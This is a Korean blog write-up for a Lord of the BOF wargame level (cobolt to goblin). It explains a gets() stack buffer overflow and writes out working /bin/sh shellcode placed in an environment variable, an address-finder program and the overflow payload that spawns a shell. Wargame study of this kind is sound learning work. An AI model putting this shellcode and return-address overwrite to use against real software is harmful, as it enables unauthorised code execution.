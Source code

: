 ```yaml
---
title:  "[LOB] level 3: cobolt >> goblin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 08:34:32

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 3

**cobolt / hacking exposed**

goblin.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/146894685-aa55ba81-ddc4-4b05-a935-7f4944d16824.png)

gets함수로 입력을 받는다

![image](https://user-images.githubusercontent.com/69203345/146895063-41e8d70f-a855-4a0a-bdf7-9fed3be04bb9.png)

0x80483fb <main+3>: sub %esp, 16  
스택의 크기는 16바이트  

낮은주소

buf[16] [ebp-16]
sfp[4]  
ret[4]

높은주소

아마 이런 구조 일것이다


환경변수설정, 41바이트 쉘코드 사용  
> export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146897549-61fd1fb2-0b68-4b1a-8c6f-c0574b78054b.png)  
나온 주소를 사용해서 페이로드 작성

> (python -c 'print "A"*20+"\xbd\xfd\xff\xbf"'; cat) | ./goblin

파이프라인을 사용하는 이유 매개변수로 받는게 아닌 gets함수(표준입력)로 받기 때문에, argv로는 전달할수 없음

![image](https://user-images.githubusercontent.com/69203345/146897736-6cb418d7-efda-4ca0-bfb4-4de41bf045ba.png)

level2와 비슷해서 어렵지 않게 풀은듯